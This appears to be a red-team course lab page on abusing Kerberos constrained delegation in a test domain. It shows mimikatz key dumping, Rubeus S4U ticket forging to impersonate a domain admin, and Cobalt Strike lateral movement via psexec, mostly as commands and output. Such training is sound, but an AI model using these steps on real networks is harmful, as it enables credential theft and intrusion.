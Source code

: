 Constrained delegation was soon released as a safer means for services to perform Kerberos delegation. It aims to restrict the services to which the server can act on behalf of a user. It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/kerberos/constrained.png)

  

In this example, SRV-2 has two delegations configured.

1.  Act on behalf of any user to the **cifs** service on **WKSTN-2**.  CIFS is very powerful, as it allows you to list file shares, upload and download files, and even interact with the Service Control Manager.
2.  Act on behalf of any user to the **eventlog** service on **DC-2**.  This service itself isn't immediately useful, but we'll review a trick that can be used to create tickets for **any** service on DC-2 rather than just eventlog.

Find all computers configured for constrained delegation and what they're allowed to delegate to (we need the `--json` output to drill down into the `msds-allowedtodelegateto` attribute).

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 1
[
  {
    "cn": "SRV-2",
    "dnshostname": "srv-2.dev.cyberbotic.io",
    "samaccountname": "SRV-2$",
    "msds-allowedtodelegateto": [
      "eventlog/dc-2.dev.cyberbotic.io/dev.cyberbotic.io",
      "eventlog/dc-2.dev.cyberbotic.io",
      "eventlog/DC-2",
      "eventlog/dc-2.dev.cyberbotic.io/DEV",
      "eventlog/DC-2/DEV",
      "cifs/wkstn-2.dev.cyberbotic.io",
      "cifs/WKSTN-2"
    ]
  }
]
```

  

In BloodHound:

```
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
```

>  Constrained delegation can be configured on user accounts as well as computer accounts.  Make sure you search for both.

To perform the delegation, we ultimately need the TGT of the principal (machine or user) trusted for delegation, for which there are two main methods.

We can extract it directly from a machine with `Rubeus dump`:

```
beacon> run hostname
srv-2

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe triage
 --------------------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                   | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
 | 0x3e4   | srv-2$ @ DEV.CYBERBOTIC.IO | krbtgt/DEV.CYBERBOTIC.IO                      | 12/5/2021 8:06:05 AM |
 | [...snip...]                                                                                                |
 --------------------------------------------------------------------------------------------------------------- 

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```
  

Or request one using the NTLM / AES keys:

```
beacon> mimikatz sekurlsa::ekeys

[...snip...]
       aes256_hmac       babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
       rc4_hmac_nt       6df89604703104ab6e938aee1d23541b

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:srv-2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /nowrap

[*] Action: Ask TGT

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[!] Pre-Authentication required!
[!]	AES256 Salt: DEV.CYBERBOTIC.IOhostsrv-2.dev.cyberbotic.io
[*] Using aes256_cts_hmac_sha1 hash: babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\srv-2$'
[*] Using domain controller: 10.10.17.71:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFLD [...snip...] MuSU8=
```

  

With the TGT, perform an S4U request to obtain a usable TGS for CIFS.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /user:srv-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap

[*] Action: S4U

[*] Building S4U2self request for: 'SRV-2$@DEV.CYBERBOTIC.IO'
[+] Sequence number is: 95699137
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2self request to 10.10.17.71:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'SRV-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFfj [...snip...] JWLTIk

[*] Impersonating user 'nlamb' to target SPN 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Building S4U2proxy request for service: 'cifs/wkstn-2.dev.cyberbotic.io'
[+] Sequence number is: 1704539139
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2proxy request to domain controller 10.10.17.71:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/wkstn-2.dev.cyberbotic.io':

      doIGwj [...snip...] ljLmlv
```

  

Where:

-   `/impersonateuser` is the user we want to impersonate. `nlamb` is a domain admin but you want to ensure this user has local admin access to the target (WKSTN-2).
-   `/msdsspn` is the service principal name that SRV-2 is allowed to delegate to.
-   `/user` is the principal allowed to perform the delegation.
-   `/ticket` is the TGT for `/user`.

  

This will perform an S4U2Self first and then an S4U2Proxy.  It's this final S4U2Proxy ticket that we need - save the ticket to a file on your desktop.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\cifs.kirbi", [System.Convert]::FromBase64String("doIGWD[...snip...]MuaW8="))
```

  

Create a new sacrificial session (to avoid clobbering the tickets in our current session) and use `kerberos_ticket_use` to import the new CIFS TGS.

```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\cifs.kirbi
```

  

We can now access the remote filesystem and jump to it using psexec.

```
beacon> ls \\wkstn-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:43:43   Program Files
          dir     02/16/2022 12:46:57   Program Files (x86)
          dir     03/01/2022 16:08:35   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     05/05/2021 16:13:00   Users
          dir     06/13/2022 08:40:13   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     06/13/2022 08:02:25   pagefile.sys

beacon> jump psexec64 wkstn-2.dev.cyberbotic.io smb
Started service 51a4bfb on wkstn-2.dev.cyberbotic.io
[+] established link to child beacon: 10.10.17.132
```

  

>  Make sure to always use the FQDN.  Otherwise, you will see 1326 errors.  
```
beacon> ls \\wkstn-2\c$
[*] Tasked beacon to list files in \\wkstn-2\c$
[+] host called home, sent: 54 bytes
[-] could not open \\wkstn-2\c$\*: 1326
```